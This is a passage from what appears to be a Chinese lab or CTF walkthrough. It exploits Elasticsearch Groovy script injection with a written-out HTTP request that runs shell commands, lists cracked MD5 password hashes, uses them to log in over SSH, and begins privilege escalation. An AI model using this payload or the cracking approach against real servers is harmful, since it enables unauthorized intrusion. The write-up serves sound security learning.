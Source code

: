 ```cobol
```

其次就是执行命令

```cobol
POST /_search?pretty HTTP/1.1
Host: 172.17.0.2:9200
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 156
 
{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"ls\").getText()"}}}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/89ea2b50a5c3fbf87af278eb7f304df0.png" alt="" style="max-height:103px; box-sizing:content-box;" />


发现存在passwords 看看是啥

整理出来

```cobol
john:3f8184a7343664553fcb5337a3138814 ---->1337hack
test:861f194e9d6118f3d942a72be3e51749 ---->1234test
admin:670c3bbc209a18dde5446e5e6c1f1d5b---->1111pass 
root:b3d34352fc26117979deabdf1b9b6354 ---->1234pass    
jane:5c158b60ed97c723b673529b8a3cf72b ---->1234jane
```

md5爆破网站看看

依次通过ssh链接看看

最后通过john 的账号密码成功登入

<img src="https://i-blog.csdnimg.cn/blog_migrate/369d5e064f00248128be21377e0d8013.png" alt="" style="max-height:510px; box-sizing:content-box;" />


## 提权

现在我们需要提权

首先看看内核

```bash
uname -a
```

```cobol
Linux socnet 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
